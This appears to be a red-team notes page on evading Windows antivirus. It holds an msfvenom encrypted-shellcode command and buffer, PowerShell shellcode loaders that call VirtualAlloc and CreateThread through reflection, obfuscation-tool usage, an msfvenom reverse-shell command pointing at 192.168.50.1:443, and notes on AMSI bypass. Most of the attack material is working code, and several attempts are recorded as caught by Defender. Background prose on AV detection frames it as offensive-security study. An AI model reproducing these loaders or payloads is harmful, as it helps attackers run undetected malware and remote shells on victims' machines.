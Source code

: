 
## Step 1 Msfvenom Shellcode Encrpytion
```bash
msfvenom -p windows/x64/messagebox text=redteamplaybook title=rtp exitfunc=thread --encrypt xor --encrypt-key redteamplaybook -f ps1 

$buf = 0x8e,0x2d,0xe5,0x90,0x95,0x9e,0x92,0x8f,0x84,0xb1,0x79,0x62,0x6f,0x2e,0x3a,0x33,0x35,0x36,0x25,0x33,0x29,0x5c,0xa2,0x9,0x29,0xf2,0x30,0xf,0x51,0x23,0xf9,0x37,0x7c,0x4a,0x2d,0xea,0x3f,0x50,0x52,0x29,0xf2,0x10,0x3f,0x51,0x23,0x7d,0xd2,0x2e,0x3e,0x28,0x50,0xa4,0x38,0x5d,0xa1,0xd5,0x5e,0xe,0x13,0x69,0x5e,0x45,0x25,0xb5,0xac,0x6c,0x2c,0x71,0xad,0x83,0x94,0x30,0x2e,0x3e,0x55,0x3a,0xee,0x36,0x54,0x5b,0xea,0x2f,0x4c,0x24,0x60,0xa9,0x5c,0xe4,0xef,0xe3,0x72,0x65,0x64,0x3c,0xe0,0xa1,0x19,0x1f,0x24,0x60,0xa9,0x32,0x51,0xe4,0x23,0x6a,0x5b,0x20,0xff,0x25,0x41,0x24,0x71,0xbc,0x82,0x25,0x2a,0x90,0xa6,0x55,0x33,0xee,0x50,0xfc,0x2d,0x60,0xbb,0x3d,0x5d,0xa8,0x31,0x53,0xaf,0xc3,0x2a,0xb3,0xac,0x69,0x35,0x64,0xa0,0x55,0x90,0x19,0x90,0x47,0x2e,0x6c,0x23,0x4f,0x7a,0x20,0x5d,0xa5,0x10,0xb7,0x35,0x4e,0x28,0xea,0x39,0x46,0x26,0x6e,0xbb,0x14,0x5b,0x25,0xff,0x69,0x29,0x53,0x34,0xe7,0x21,0x65,0x2b,0x6e,0xbf,0x55,0x33,0xee,0x60,0xfc,0x2d,0x60,0xbd,0x31,0x34,0x20,0x21,0x3c,0x36,0x35,0x2a,0x2a,0x24,0x3d,0x35,0x3f,0x29,0xee,0x9c,0x4c,0x20,0x2b,0x9d,0x8f,0x37,0x2a,0x2b,0x3f,0x5a,0x3c,0xee,0x73,0x84,0x39,0x93,0x9e,0x86,0x3f,0x26,0xa8,0xaa,0x72,0x65,0x64,0x74,0x5b,0x29,0xe0,0xe5,0x76,0x60,0x79,0x62,0x51,0x23,0xe6,0xf7,0x4f,0x65,0x74,0x65,0x29,0x5c,0xb9,0x2d,0xdb,0x3c,0xe1,0x39,0x68,0x94,0xa7,0xde,0x84,0x69,0x4f,0x6b,0x2c,0xca,0xca,0xf4,0xc4,0xff,0x90,0xba,0x23,0xf1,0xa1,0x4c,0x48,0x63,0x1d,0x67,0xf0,0x97,0x81,0xc,0x67,0xd4,0x28,0x78,0x0,0xa,0xe,0x74,0x3c,0x20,0xe4,0xaa,0x93,0xb4,0xb,0x7,0xb,0x1b,0xe,0x13,0x8,0x14,0x18,0x4,0x18,0xf,0x1f,0x3,0xa,0x79,0x10,0x1b,0x1f,0x6b

```
## Dynamic Method to bypass Add-Type getting Caught 
```bash
function LookUpFunc {
    Param($module, $funcName)

    $assem = ([AppDomain]::CurrentDomain.GetAssemblies() | Where-Object { $_.GlobalAssemblyCache -And $_.Location.Split('\\')[-1].Equals('System.dll') }).GetType('Microsoft.Win32.UnsafeNativeMethods')

    $GetProcAddress = $assem.GetMethod('GetProcAddress', [Type[]] @('System.Runtime.InteropServices.HandleRef', 'string'))

    return $GetProcAddress.Invoke($null, @([System.Runtime.InteropServices.HandleRef](New-Object System.Runtime.InteropServices.HandleRef((New-Object IntPtr), ($assem.GetMethod('GetModuleHandle')).Invoke($null, @($module)))), $funcName))
}

function getDelegateType{
    Param (
        [Parameter(Position = 0, Mandatory = $True)] [Type[]] $func,
        [Parameter(Position = 1)] [Type] $delType = [Void]
    )
    $type = [AppDomain]::CurrentDomain.DefineDynamicAssembly((New-Object System.Reflection.AssemblyName('ReflectedDelegate')),[System.Reflection.Emit.AssemblyBuilderAccess]::Run).DefineDynamicModule('InMemoryModule',$false).DefineType('MyDelegateType','Class, Public, Sealed, AnsiClass, AutoClass',[System.MulticastDelegate])
    $type.DefineConstructor('RTSpecialName, HideBySig, Public', [System.Reflection.CallingConventions]::Standard, $func).SetImplementationFlags('Runtime,Managed')
    $type.DefineMethod('Invoke','Public, HideBySig, NewSlot, Virtual',$delType, $func).SetImplementationFlags('Runtime,Managed')
    return $type.CreateType()
}

[Byte[]] $buf =  <Place shell code here>


$pAlloc = [System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer((LookUpFunc Kernel32.dll VirtualAlloc), (getDelegateType @([IntPtr], [UInt32], [UInt32], [UInt32]) ([IntPtr]))).Invoke([IntPtr]::Zero, $buf.Length, 0x3000, 0x40)
[System.Runtime.InteropServices.Marshal]::Copy($buf, 0, $pAlloc, $buf.Length)
$pThread = [System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer((LookUpFunc Kernel32.dll CreateThread), (getDelegateType @([IntPtr], [UInt32], [IntPtr], [IntPtr], [UInt32], [IntPtr]) ([IntPtr]))).Invoke([IntPtr]::Zero, 0, $pAlloc, [IntPtr]::Zero, 0, [IntPtr]::Zero)
```


### Step3 Using Powershell Obfuscation Tools
```bash
pwsh Invoke-Stealth.ps1 test.ps1 -technique all
Loading Chameleon and doing some obfuscation.. [OK]


```

## AMSI BYPASS
AMSI.dll Memory Patching:  Modifying the AMSI.dll file in the computer's memory to disable or alter its functionality temporarily. AMSI.dll 





















## Background
Antivirus (AV) is a vital application designed to proactively prevent, detect, and eradicate malicious software. Originally, its primary purpose was to combat computer viruses, but its capabilities have expanded to address a wide range of digital threats.

## Examples of Antivirus (AV) Software
1. Windows Defender (Microsoft Defender)
2. McAfee Antivirus
3. Norton Antivirus

## Detection Methods
AV software utilizes various sophisticated detection techniques to identify and neutralize threats effectively:

1. Signature-based Detection: This method involves scanning the filesystem for known malware signatures. If any malicious patterns are detected, the AV software takes appropriate actions.

2. Heuristic-based Detection: Employing advanced algorithms and rules, this approach assesses whether specific actions in a program are deemed malicious. It often entails stepping through the instruction set of a binary file, attempting to disassemble the machine code, and ultimately decompiling and analyzing the source code to gain a comprehensive understanding of the program.

3. Behavioral Detection: AV software executes the suspicious file in an emulated environment, such as a small virtual machine, and observes its behaviors or actions. Any actions considered malicious trigger a response from the AV to contain or remove the threat.

4. Machine Learning Detection: By integrating Machine Learning (ML) algorithms, AV software can detect previously unknown threats by collecting and analyzing additional metadata. This approach enhances the AV's ability to stay ahead of emerging threats.

By combining these powerful detection methods, antivirus applications are constantly updated and refined to safeguard computers and users from the ever-evolving landscape of cybersecurity threats.

## In Memory Evasion
In-Memory Injections, also known as PE Injection, is a popular technique used to bypass antivirus products on Windows machines.
## Remote Process Memory Injection
Remote Process Memory Injection,  attempts to inject the payload into another valid PE that is not malicious.
Use `OpenProcess` function to obtain a valid `HANDLE5` to a target process that we have permission to access. After obtaining the `HANDLE`, we would allocate memory in the context of that process by calling a Windows API such as VirtualAllocEx.6 Once the memory has been allocated in the remote process, we would copy the malicious payload to the newly allocated memory using WriteProcessMemory.7 

# Unsuccessful
1. Powershell Invoke-Stealth. (Caught by Windows Defender) https://github.com/JoelGMSec/Invoke-Stealth
  ![](/assets/Project/Invoke.png)

  Techniques that were utilized in the script:
  Techniques:
       · Chameleon: Substitute strings and concatenate variables
       · BetterXencrypt: Compresses and encrypts with random iterations
       · PyFuscation: Obfuscate functions, variables and parameters
       · ReverseB64: Encode with base64 and reverse it to avoid detections
       · PSObfuscation: Convert content to bytes and encode with Gzip
    However, this was blocked in Windows Defender.
  ![](/assets/Project/PowershellFail.png)

2. ScareCrow (Caught by Window Defender) https://github.com/optiv/ScareCrow 
  ![](/assets/Project/scare.png)
  ![](/assets/Project/One.png)
3. Powershell Remote Process memory Injection (Caught by Windows Defender)
```bash
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.50.1 LPORT=443 -f powershell -v sc
```

```bash
$code = '
[DllImport("kernel32.dll")]
public static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);

[DllImport("kernel32.dll")]
public static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);

[DllImport("msvcrt.dll")]
public static extern IntPtr memset(IntPtr dest, uint src, uint count);';

$winFunc = 
  Add-Type -memberDefinition $code -Name "Win32" -namespace Win32Functions -passthru;

[Byte[]];
[Byte[]]$sc = <place your shellcode here>;

$size = 0x1000;

if ($sc.Length -gt 0x1000) {$size = $sc.Length};

$x = $winFunc::VirtualAlloc(0,$size,0x3000,0x40);

for ($i=0;$i -le ($sc.Length-1);$i++) {$winFunc::memset([IntPtr]($x.ToInt32()+$i), $sc[$i], 1)};

$winFunc::CreateThread(0,0,$x,0,0,0);for (;;) { Start-sleep 60 };

```


This was also blocked by Windows Defender.


## AMSI BYPASS 
AMSI (Antimalware Scan Interface) is a Windows feature introduced in Windows 10 and Windows Server 2016. Its primary purpose is to provide an interface that allows antivirus and other security solutions to scan and inspect scripts and code in real-time at runtime

When a script is about to be executed, it passes through AMSI, which scans the script's content for suspicious or malicious behavior. I

AMSI BYPASS METHODS.
Code Fragmentation: Breaking the malicious code into smaller pieces and combining them at runtime to evade detection
Encoding and Obfuscation: Using various encoding and obfuscation techniques to hide the script's true intent from AMSI scanners.
Memory Patching: Modifying the AMSI DLL in memory to disable or alter its functionality temporarily.




## Weaponization

## Reference
- Read team playbook, Offensive Security
